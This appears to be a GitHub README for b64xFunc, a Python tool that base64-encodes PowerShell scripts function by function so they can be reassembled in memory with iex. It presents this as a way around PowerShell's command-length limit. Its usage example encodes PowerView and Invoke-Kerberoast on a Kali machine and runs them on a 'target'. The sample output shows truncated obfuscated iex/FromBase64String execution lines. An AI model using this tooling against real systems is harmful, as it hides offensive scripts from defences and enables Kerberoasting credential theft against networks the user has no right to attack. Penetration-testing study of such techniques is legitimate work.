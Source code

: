 # b64xFunc - Base64 Encode PS1 Scripts by Function

b64xFunc encodes a ps1 script function by function and generates a series of powershell commands to rebuild the original ps1 functionality in memory. 

Powershell has a command length limit of 8,191 characters. This limits the size of ps1 scripts that can be executed using the `powershell -enc` parameter. By encoding large ps1 files function by function, b64xFunc can bypass this command length restriction.

```
Usage:
   b64xFunc.py -file FILE	  Load ps1 from file
   b64xFunc.py -url URL           Load ps1 from url
   b64xFunc.py -cmd "CMD"	  Encode a single command

Full Example:
   (kali)   b64xFunc.py -file powerview.ps1 > test.ps1
   (kali)   b64xFunc.py -file Invoke-Kerberoast.ps1 >> test.ps1
   (target) Import-Module ./test.ps1
   (target) Invoke-Kerberoast | fl
```

## Sample Output
```
python b64xFunc.py -url https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1

iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gTmV...pbGRlcgp9Cg==")))
iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gZnV...ydGllcwp9Cg==")))
iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gQWR...zCiAgICB9Cn0K")))
iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("ZnVuY3Rpb24gcHN...lVHlwZSgpCn0K")))
[... output truncated ...]
```

